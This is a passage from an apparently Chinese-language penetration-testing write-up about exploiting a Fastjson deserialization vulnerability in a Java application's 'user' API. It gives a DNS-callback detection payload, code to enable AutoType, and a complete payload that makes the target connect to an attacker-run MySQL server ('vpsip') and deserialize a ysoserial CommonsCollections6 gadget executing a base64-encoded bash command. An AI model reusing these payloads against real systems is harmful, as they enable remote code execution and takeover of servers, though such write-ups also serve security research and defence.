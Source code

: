 
根据路由分析，这里的 apiName 为 user，这样能够寻找到 UserComponent 里的 select 方法

**测试**

抓包设置 payload

```plain
{"@type":"java.net.Inet4Address","val":"xxxxxx"}
```

[![](assets/1706957928-af4d946c7309ccbef722c8ef5ae405c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201232916-a8cd8460-c116-1.png)

收到 DNS 请求，证明漏洞存在

[![](assets/1706957928-8e4bfe0e560074abe93aaab13bb9db21.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201232940-b756f214-c116-1.png)

接下来可以进行 LDAP 注入，但是需要确定 AutoType 是否开启

可以通过以下代码开启

```plain
ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
```

但是在实际测试的过程中，没有开启可以通过 mysql 服务来打

payload：

```plain
{
      "@type": "java.lang.AutoCloseable",
      "@type": "com.mysql.jdbc.JDBC4Connection",
      "hostToConnectTo": "vpsip",
      "portToConnectTo": 3306,
      "info": {
          "user": "yso_CommonsCollections6_bash -c {echo,xxxxx}|{base64,-d}|{bash,-i}",
          "password": "pass",
          "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
          "autoDeserialize": "true",
          "NUM_HOSTS": "1"
      },
      "databaseToConnectTo": "dbname",
      "url": ""
  }
```
